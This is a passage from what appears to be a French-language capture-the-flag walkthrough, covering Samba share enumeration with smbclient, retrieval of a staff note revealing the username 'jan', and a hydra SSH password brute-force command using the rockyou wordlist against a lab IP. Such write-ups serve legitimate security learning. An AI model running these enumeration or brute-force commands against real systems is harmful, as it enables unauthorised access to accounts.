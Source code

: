 ### Étape 4: Énumération des Partages Samba

**Commande:**
```bash
smbclient -L //10.10.56.151
```

**Explication:**
- `smbclient` permet d'interroger les partages disponibles sur un serveur Samba.

**Résultats:**
```
Sharename       Type      Comment
---------       ----      -------
Anonymous       Disk      
IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```
- On découvre un partage anonyme.

### Étape 5: Accès au Partage Samba

**Commande:**
```bash
smbclient //10.10.56.151/Anonymous
```

**Explication:**
- Se connecter au partage Samba anonyme pour voir les fichiers disponibles.

**Résultats:**
```
smb: \> ls
  .                                   D        0  Thu Apr 19 18:31:20 2018
  ..                                  D        0  Thu Apr 19 18:13:06 2018
  staff.txt                           N      173  Thu Apr 19 18:29:55 2018
```
- On trouve un fichier `staff.txt`.

**Commande:**
```bash
get staff.txt
```

**Contenu de `staff.txt`:**
```
Announcement to staff:
PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)
-Kay
```
- On obtient un nom d'utilisateur complet: `jan`.

### Étape 6: Brute Force des Identifiants SSH

**Commande:**
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.56.151
```
